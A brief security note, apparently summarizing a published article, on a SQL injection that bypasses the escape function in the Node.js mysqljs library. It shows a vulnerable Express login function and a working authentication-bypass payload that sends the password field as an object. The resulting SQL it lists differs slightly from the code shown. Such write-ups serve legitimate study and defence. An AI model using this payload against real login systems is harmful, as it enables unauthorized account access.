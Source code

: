 #sqli 
https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4
# TLDR
Unexpected behavior of escape function during passing values to #mysql in #nodejs projects.
Express code:
```javascript
async loginUser(user, pass) {
	return new Promise(async (resolve, reject) => {
		let stmt = 'SELECT username FROM users WHERE username = ? AND password = ?';
		this.connection.query(stmt, [user, pass], (err, result) => {
			if(err || result.length == 0)
				reject(err)
			resolve(result)
		})
	});
}
```
User/pass:
```json
{"username":"admin","password":{"password": 1}}
```
or
```
username=admin&password[password]=1
```
Evaluates to:
```sql
SELECT * FROM accounts WHERE username = 'admin' AND password = `password` = 1
```